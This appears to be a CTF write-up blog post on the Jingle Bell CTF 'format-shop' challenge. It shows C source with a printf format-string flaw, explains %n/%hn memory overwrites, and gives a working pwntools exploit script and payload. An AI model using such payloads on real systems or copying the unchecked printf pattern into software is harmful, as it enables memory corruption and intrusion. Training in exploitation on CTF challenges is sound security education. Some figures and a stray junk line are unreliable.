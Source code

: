 ```yaml
---
title: Binary exploitaion :format-string vulnerability
date: '2022-12-30'
tags: ['pwn', 'CTF']
draft: false
summary: 'writeup for a binary exploitaion challenge that was issued in the jingle bell CTF (format-string vulnerability).'
authors: ['oussema zouch']
---
```

### format-shop challenge from the jingle bell CTF .
ndozaioazjdoazpdozasqda

given the source code:

```c
#include <stdio.h>

unsigned int money = 1500;

int menu(){
    puts("1. Go shopping!");
    puts("2. Give feedback.");
    puts("3. Bye");

    int tmp;
    printf("> ");
    scanf("%d", &tmp);
    getchar();
    return tmp;
}

void setup(){
    setvbuf(stderr, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
}

void flag(){
	char c;
    FILE *fp=fopen("./flag.txt","r");
    if(fp){
        while( (c=getc(fp)) != EOF)
            putchar(c);
        fclose(fp);
    }else{
        puts("Flag file not found!");
    }
}

void shop(){
    unsigned int prices[5] = {69, 12, 322, 554, 0x1337};
    char* items[5] = {"Ice", "Fish", "Icecream", "Sugar", "flag"};

    for(int i=0; i<5; i++){
        printf("%d. %s:%d coins.\n", i+1, items[i], prices[i]);
    }

    printf("You have %u coins\n", money);
    int idx;
    printf("Item> ");
    scanf("%d", &idx);
    getchar();

    if(idx < 1 || idx > 5){
        puts("Invalid index.");
        return;
    }

    idx--; // To use as index
    if(prices[idx] > money){
        puts("Not enough money");
        return;
    }

    if(idx == 4){
        flag();
    }
    money -= prices[idx];
    puts("Item bought!");
}

void feedback(){
    char feedbackContent[250];
    printf("> ");
    int c = read(0, feedbackContent, 249);

    if(c == -1) return;
    feedbackContent[c] = '\0';
    
    printf(feedbackContent);
    puts("Thanks for the feedback!");
}

int main(){
    setup();

    int choice;
    do{
        choice = menu();
        switch (choice)
        {
        case 1:
            shop();
            break;
        case 2:
            feedback();
            break;
        default:
            break;
        }
    }while(choice != 3);

    return 0;
}
```
there is a function called flag() in the source code that we can reach if we buy the the flag item which costs 0x1337 (4919) but we only have 1500 .
#### first let’s run some basic file checks .
![file check](/static/images/format1.png)

we can see that The No eXecute or the NX bit is enabled which means that we can’t jump to custom shellcode after being injected in the stack.

— — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — 



![](/static/images/format2.png)

hmmmm!!!that’s a **format-string vulnerability** and 6 is the first formatter’s offset we control since the hex representation of **‘%p-’ is 0x70252d**.

we can use this vulnerability and try to modify our money variable to make it higher than 4919.

**money_add**=0x0000000000404060

we will use the %nformat specifier which takes in a pointer (memory address) and writes there the number of characters written so far.

our payload will look like :payload=p64(**money_add**)+b’a’*5000+ b’%6$n’. so we expect that with this payload we will write 5000+4 bytes to money_add.

***BUT IT DOESN’T WORK!!!!!!!!!!!!!!!***

The reason it doesn’t work is that *printf* stops at null bytes, and the money-address contains null bytes. We have to put the format specifier first.

there is also another problem that will prevent this payload from working is that we can’t write 5004 bytes into memory .

we will try to write in the higher bytes of our address. there is a way to do this with %hn format specifier.

# CONSTRUCTING THE PAYLOAD

**_payload=b’a’\*16+b’%9$hn|||’+p64(money_add+2)_**

let’ s break and take a look at **money** in gdb :

![](/static/images/format3.png)
money is equal to 0x00000000001005dc (= 1050076)

## final exploit:

```python
from pwn import * 
import pwnlib.util.packing as pack
elf=ELF('main')
#p=elf.process()
p=remote('REMOTE_server',PORT)
money_add=0x0000000000404060
p.sendline(b'2')
payload=b'a'*16
payload+=b'%9$hn|||'
payload+=p64(money_add+2)
payload+=b'%10$hn||'
payload+=p64(money_add)
p.sendline(payload)
p.recvuntil(b'3. Bye')
p.sendline(b'2')
p.interactive()
```

Special Thanks to **Securinets INSAT** for bringing to life this challenging CTF .i really enjoyed learning new stuff related mainly to the binary exploitation category.
